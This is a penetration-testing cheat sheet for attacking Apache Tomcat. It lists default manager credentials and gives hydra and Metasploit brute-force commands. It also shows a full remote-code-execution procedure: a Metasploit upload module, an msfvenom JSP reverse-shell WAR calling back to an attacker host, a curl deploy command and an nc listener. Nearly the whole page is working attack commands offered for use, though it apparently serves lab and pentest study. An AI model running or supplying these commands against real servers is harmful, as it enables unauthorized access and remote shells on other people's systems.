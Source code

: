 # 🐈 Tomcat

## No Account

### Default Credentials

```
admin:
admin:admin
admin:password
admin:password1
admin:Password1
admin:tomcat
manager:manager
root:changethis
root:password
root:password1
root:root
root:r00t
root:toor
tomcat:(empty)
tomcat:admin
tomcat:changethis
tomcat:password
tomcat:password1
tomcat:s3cret
tomcat:tomcat
```

### Bruteforce

```bash
# metasploit
msf> use auxiliary/scanner/http/tomcat_mgr_login

# hydra
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f 10.10.10.64 http-get /manager/html
```

## Passwords Backtrace disclosure

/auth.jsp

## With Account

### Manager - RCE

> You will only be able to deploy a WAR if you have **enough privileges** (roles: admin, manager and manager-script).&#x20;
>
> Those details can be find under **tomcat-users.xml** usually defined in /usr/share/tomcat9/etc/tomcat-users.xml (it vary between versions)

#### PoC

```bash
# metasploit
use exploit/multi/http/tomcat_mgr_upload
msf exploit(multi/http/tomcat_mgr_upload) > set rhost <IP>
msf exploit(multi/http/tomcat_mgr_upload) > set rport <port>
msf exploit(multi/http/tomcat_mgr_upload) > set httpusername <username>
msf exploit(multi/http/tomcat_mgr_upload) > set httppassword <password>
msf exploit(multi/http/tomcat_mgr_upload) > exploit

# msfvenom - manually
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.41 LPORT=8083 -f war -o revshell.war
# upload it to tomcat and access it : /revshell/
curl --upload-file shell.war -u 'tomcat:password' "https://example.com/manager/text/deploy?path=/shell"

# host
nc -lvnp 8083
```

